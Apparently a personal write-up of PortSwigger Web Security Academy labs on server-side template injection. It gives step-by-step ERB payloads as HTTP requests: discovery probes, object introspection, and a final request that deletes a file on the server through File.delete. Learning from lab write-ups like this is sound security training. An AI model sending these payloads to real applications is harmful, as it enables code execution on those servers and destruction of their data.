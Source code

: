# Server-side template injection
https://portswigger.net/web-security/server-side-template-injection

# Exploiting server-side template injection vulnerabilities
https://portswigger.net/web-security/server-side-template-injection/exploiting


# 1. Lab: Basic server-side template injection
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory

explore site. note that 
    GET /product?productId=1 HTTP/1.1
yeilds "out of stock messege" when Following redirection:
    GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/1.1
replace original messege with ERB executable math calculation:
    GET /?message=<%=+7+*+7+%25> HTTP/1.1
observe resault includes "49"

injection point is parameter "message"

payloads:
GET /?message=<%=+self+%25> HTTP/1.1
    main

GET /?message=<%=+self.class.name+%25> HTTP/1.1
    Object

GET /?message=<%25%3d+self.methods+%25> HTTP/1.1
    [:inspect, :to_s, :dup, :itself, :yield_self, :then, :taint, :tainted?, :untaint, :untrust, :untrusted?, :trust, :frozen?, :methods, :singleton_methods, :protected_methods, :private_methods, :public_methods, :instance_variables, :instance_variable_get, :instance_variable_set, :instance_variable_defined?, :remove_instance_variable, :instance_of?, :kind_of?, :is_a?, :tap, :class, :singleton_class, :display, :clone, :hash, :public_send, :method, :public_method, :singleton_method, :define_singleton_method, :extend, :to_enum, :enum_for, :<=>, :===, :=~, :!~, :nil?, :eql?, :respond_to?, :freeze, :object_id, :send, :__send__, :!, :==, :!=, :equal?, :__id__, :instance_eval, :instance_exec]



GET /?message=<%25%3d+self.method(:instance_exec).parameters+%25> HTTP/1.1
    [[:rest]]

GET /?message=<%25%3d+self.yield_self+%25> HTTP/1.1
    #

after we had fun exploring lets use file.delete command to solve the lab:

GET /?message=<%25%3dFile.delete('/home/carlos/morale.txt')%25> HTTP/1.1


# 2. Lab: Basic server-side template injection (code context)
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context
